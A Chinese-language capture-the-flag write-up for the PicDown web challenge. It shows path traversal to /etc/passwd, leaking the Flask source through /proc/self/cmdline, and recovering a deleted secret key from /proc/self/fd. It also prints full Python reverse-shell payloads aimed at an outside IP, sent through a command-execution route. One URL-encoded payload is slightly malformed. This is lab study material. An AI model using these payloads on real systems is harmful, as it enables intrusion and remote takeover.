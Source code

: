 

## [网鼎杯 2020 白虎组]PicDown

### buuoj web

因为昨天做到了/proc/文件的利用，今天就顺带做一下别的题练练手



![image-20240720182357485](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240720182357485.png)

首先的url应该考虑ssrf，不过这道题并不是这样，考虑的include文件包含与泄露。输入../../etc/passwd经典用户泄露，使用昨天的学习利用姿势

首先`/proc/self/cmdline` 看到泄露信息是在python2下的app.py，不过这个文件是没有目录包含的，在当前文件夹下

![image-20240720183118799](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240720183118799.png)

将得到的函数查看，又是昨天熟悉的flask

```python
from flask import Flask, Response
from flask import render_template
from flask import request
import os
import urllib

app = Flask(__name__)

# 定义一个秘密文件路径
SECRET_FILE = "/tmp/secret.txt"
# 打开秘密文件并读取内容
f = open(SECRET_FILE)
# 将读取的内容作为密钥
SECRET_KEY = f.read().strip()
# 删除秘密文件
os.remove(SECRET_FILE)

# 定义根路径的路由
@app.route('/')
def index():
    # 返回名为search.html的模板
    return render_template('search.html')

# 定义/page路径的路由
@app.route('/page')
def page():
    # 获取URL参数
    url = request.args.get("url")
    try:
        # 检查URL是否以"file"开头
        if not url.lower().startswith("file"):
            # 打开URL并读取内容
            res = urllib.urlopen(url)
            value = res.read()
            # 创建响应对象，设置MIME类型为二进制流
            response = Response(value, mimetype='application/octet-stream')
            # 设置响应头，指定文件名为beautiful.jpg
            response.headers['Content-Disposition'] = 'attachment; filename=beautiful.jpg'
            return response
        else:
            # 如果URL以"file"开头，返回HACK ERROR!
            value = "HACK ERROR!"
    except:
        # 捕获异常，返回SOMETHING WRONG!
        value = "SOMETHING WRONG!"
    # 返回名为search.html的模板，并传递res参数
    return render_template('search.html', res=value)

# 定义/no_one_know_the_manager路径的路由
@app.route('/no_one_know_the_manager')
def manager():
    # 获取key参数
    key = request.args.get("key")
    # 打印密钥
    print(SECRET_KEY)
    # 检查key是否等于密钥
    if key == SECRET_KEY:
        # 获取shell参数
        shell = request.args.get("shell")
        # 执行shell命令
        os.system(shell)
        res = "ok"
    else:
        res = "Wrong Key!"
    # 返回结果
    return res

# 如果是主程序，运行Flask应用
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)

```

这里的函数很有意思

```
# 定义一个秘密文件路径
SECRET_FILE = "/tmp/secret.txt"
# 打开秘密文件并读取内容
f = open(SECRET_FILE)
# 将读取的内容作为密钥
SECRET_KEY = f.read().strip()
# 删除秘密文件
os.remove(SECRET_FILE)
```

这打开了密钥读取又关闭，昨天的学习中我们了解了，即使文件关闭了，在/proc/self/fd中依然会储存相关内容，我们可以直接去枚举获得

ps：这里能不能利用昨天的/mem/文件呢？可以尝试

![image-20240720183613255](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240720183613255.png)

枚举到3时候得到，这个密钥`/aMZjmTV4KInndF2tXxS68S2uTLUBZWLdIkPwn4is/8=`,不过这还没有结束，因为

![image-20240720185432960](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240720185432960.png)

这样传入得到结果只是一个ok，要利用只能通过反弹shell了

```shell
shell=python -c "import socket, subprocess, os; s = socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect(('192.168.213.129', 7777)); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); p = subprocess.call(['/bin/sh', '-i'])"
```

有些坑，吃了饭回来靶机过期，，，key还不一样了，新key=cK+FGXFysqfYX+RHVaMGvxLBLvASkwQbzkDh8XmcJyY=

不是，这个key还能有问题啊，无语了，，，重开了三遍还是不行

![image-20240720234541616](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240720234541616.png)

下面的思路就是反弹shell，明天再打吧

```
/no_one_know_the_manager?key=BxQcsYw/Hwx7DakSFUjB3ruQvwGfxxGDFW9txUYQPlo=&shell=python -c "import socket, subprocess, os; s = socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect(('192.168.213.129', 7777)); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); p = subprocess.call(['/bin/sh', '-i'])"
```



```
/no_one_know_the_manager?key=BxQcsYw/Hwx7DakSFUjB3ruQvwGfxxGDFW9txUYQPlo=&shell=python%20-c%20%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%192.168.213.129,7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/bash%22,%22-i%22]);%27
```
